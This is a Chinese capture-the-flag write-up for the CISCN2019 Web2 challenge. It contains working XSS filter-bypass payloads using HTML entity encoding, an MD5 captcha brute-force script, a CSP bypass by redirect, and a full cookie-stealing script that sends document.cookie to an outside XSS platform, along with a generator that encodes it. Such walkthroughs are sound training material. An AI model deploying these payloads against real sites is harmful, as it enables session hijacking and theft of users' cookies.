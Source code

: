 # \[CISCN2019 华东北赛区]Web2

## \[CISCN2019 华东北赛区]Web2

## 考点

* xss
* sql注入

## wp

登录注册，有个投稿和反馈的功能。

投稿输入

```javascript
<img src="ssssss.png" onerror="javascript:alert(1)" /> 
```

得到文章页面，访问发现存在过滤

```javascript
<img waf等于号”ssssss.png”="" onerror等于号”javascript:alert（1）”="">
```

反馈处有提示`请输入有问题的网址。我会亲自查看`，应该是个XSS，在投稿插入XSS语句，在反馈处让bot访问XSS页面窃取cookie

反馈处的验证要求验证码md5的前6位符合要求，爆破脚本如下

```python
import hashlib

for i in range(1, 10000001):
    s = hashlib.md5(str(i)).hexdigest()[0:6]
    if s == "199a59":
        print(i)
        break
```

接下来是如何绕过XSS的过滤。测试发现会把`英文的单双引号，英文的括号`换成`中文`的，然后`<,>svg,eval,script`都没过滤。可以尝试HTML实体编码绕过，`'`是`&#x27;`，`"`是`&#x22;`，`(`是`&#x28;`，`)`是`&#x29;`，=是`&#x3D;`

如下payload可以弹窗

```
<svg><script>alert&#x28;1&#x29;</script></svg>
<svg><script>eval&#x28;atob&#x28;&#x27;YWxlcnQoMSk&#x3D;&#x27;&#x29;&#x29;</script></svg>
<svg><script>&#x65;&#x76;&#x61;&#x6c;&#x28;&#x61;&#x74;&#x6f;&#x62;&#x28;&#x27;&#x59;&#x57;&#x78;&#x6c;&#x63;&#x6e;&#x51;&#x6f;&#x4d;&#x53;&#x6b;&#x3d;&#x27;&#x29;&#x29;</script></svg>
```

编码脚本

```python
res = ''
s="eval(atob('YWxlcnQoMSk='))"
for i in s:
    res = res + '&#' +hex(ord(i))[1:] + ';'
```

发现有CSP，可以使用跳转绕过

* `default-src 'self'` 所有的外部资源只能从当前域名加载
* `script-src unsafe-inline` 允许执行页面内嵌的标签和事件监听函数
* `script-src unsafe-eval` 允许将字符串当作代码执行，比如使用eval、setTimeout、setInterval和Function等函数

![](<../.gitbook/assets/image (2).png>)

到XSS平台新建个项目，然后访问script脚本，得到代码

```javascript
(function(){(new Image()).src='https://xss.pt/xss.php?do=api&id=y3QK&location='+escape((function(){try{return document.location.href}catch(e){return ''}})())+'&toplocation='+escape((function(){try{return top.location.href}catch(e){return ''}})())+'&cookie='+escape((function(){try{return document.cookie}catch(e){return ''}})())+'&opener='+escape((function(){try{return (window.opener && window.opener.location.href)?window.opener.location.href:''}catch(e){return ''}})());})();
```

然后把(new Image()).src改成window.location.href，结果如下

```javascript
(function(){(window.location.href='https://xss.pt/xss.php?do=api&id=y3QK&location='+escape((function(){try{return document.location.href}catch(e){return ''}})())+'&toplocation='+escape((function(){try{return top.location.href}catch(e){return ''}})())+'&cookie='+escape((function(){try{return document.cookie}catch(e){return ''}})())+'&opener='+escape((function(){try{return (window.opener && window.opener.location.href)?window.opener.location.href:''}catch(e){return ''}})());})()
```

用脚本生成一下payload

```python
s = '''(function(){window.location.href='https://xss.pt/xss.php?do=api&id=y3QK&location='+escape((function(){try{return document.location.href}catch(e){return ''}})())+'&toplocation='+escape((function(){try{return top.location.href}catch(e){return ''}})())+'&cookie='+escape((function(){try{return document.cookie}catch(e){return ''}})())+'&opener='+escape((function(){try{return (window.opener && window.opener.location.href)?window.opener.location.href:''}catch(e){return ''}})());})();'''
output = ""

for i in s:
    output += "&#" + hex(ord(i))[1:] + ";"

print("<svg><script>eval&#x28;&#x22;" + output + "&#x22;&#x29;</script></svg>")
```

在XSS平台可以看到自己的cookie，然后到反馈里面填链接

